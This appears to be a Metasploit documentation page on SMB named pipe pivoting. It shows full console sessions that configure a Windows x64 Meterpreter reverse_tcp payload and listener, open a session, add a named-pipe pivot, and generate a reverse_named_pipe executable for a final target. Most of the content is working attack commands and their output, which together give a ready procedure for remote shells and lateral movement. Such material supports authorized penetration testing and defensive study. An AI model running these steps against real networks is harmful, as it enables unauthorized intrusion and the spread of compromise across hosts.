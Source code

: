 ## SMB Named Pipe Pivoting in Meterpreter

The Windows Meterpreter payload supports lateral movement in a network through SMB Named Pipe Pivoting. No other Meterpreters/session types support this functionality.

First open a Windows Meterpreter session to the pivot machine:

```msf
msf > use payload/windows/x64/meterpreter/reverse_tcp
smsf payload(windows/x64/meterpreter/reverse_tcp) > set lhost 172.19.182.171
lhost => 172.19.182.171
msf payload(windows/x64/meterpreter/reverse_tcp) > set lport 4578
lport => 4578
msf payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 172.19.182.171:4578 
msf payload(windows/x64/meterpreter/reverse_tcp) > [*] Sending stage (200774 bytes) to 172.19.185.34
[*] Meterpreter session 1 opened (172.19.182.171:4578 -> 172.19.185.34:49674) at 2022-06-09 13:23:03 -0500
```

Create named pipe pivot listener on the pivot machine, setting `-l` to the pivot's bind address:

```msf
msf payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > pivot add -t pipe -l 169.254.16.221 -n msf-pipe -a x64 -p windows
[+] Successfully created pipe pivot.
meterpreter > background
[*] Backgrounding session 1...
```

Now generate a separate payload that will connect back through the pivot machine. This payload will be executed on the final target machine.  Note there is no need to start a handler for the named pipe payload.

```msf
msf payload(windows/x64/meterpreter/reverse_named_pipe) > show options

Module options (payload/windows/x64/meterpreter/reverse_named_pipe):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   PIPEHOST  .                yes       Host of the pipe to connect to
   PIPENAME  msf-pipe         yes       Name of the pipe to listen on

msf payload(windows/x64/meterpreter/reverse_named_pipe) > set pipehost 169.254.16.221
pipehost => 169.254.16.221
msf payload(windows/x64/meterpreter/reverse_named_pipe) > generate -f exe -o revpipe_meterpreter_msfpipe.exe
[*] Writing 7168 bytes to revpipe_meterpreter_msfpipe.exe...
```
